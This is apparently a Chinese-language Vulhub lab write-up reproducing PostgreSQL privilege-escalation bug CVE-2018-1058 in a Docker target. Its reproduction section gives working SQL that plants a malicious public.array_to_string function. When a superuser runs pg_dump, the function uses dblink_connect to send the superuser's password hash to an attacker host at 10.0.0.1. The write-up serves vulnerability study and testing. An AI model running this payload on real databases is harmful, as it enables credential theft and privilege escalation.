


# PostgreSQL 提权漏洞（CVE-2018-1058）

PostgreSQL 是一款关系型数据库。其9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

参考链接：

- https://wiki.postgresql.org/wiki/A_Guide_to_CVE-2018-1058:_Protect_Your_Search_Path
- https://xianzhi.aliyun.com/forum/topic/2109

## 漏洞环境

启动存在漏洞的环境：

```
docker-compose up -d
```

环境启动后，将在本地开启PG默认的5432端口。

## 漏洞复现

参考上述链接中的第二种利用方式，我们先通过普通用户`vulhub:vulhub`的身份登录postgres: `psql --host your-ip --username vulhub`



执行如下语句后退出：

```
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
    select dblink_connect((select 'hostaddr=10.0.0.1 port=5433 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
    SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```

然后我在`10.0.0.1`上监听5433端口，等待超级用户触发我们留下的这个“后门”。

（假装自己是超级用户）在靶场机器下，用超级用户的身份执行`pg_dump`命令：`docker-compose exec postgres pg_dump -U postgres -f evil.bak vulhub`，导出vulhub这个数据库的内容。

执行上述命令的同时，“后门”已被触发，`10.0.0.1`机器上已收到敏感信息：



上述过程仅是该漏洞的一种利用方法，涉及到机器比较多可能有点乱，建议读者阅读参考链接中的文章，获取更多利用方法。
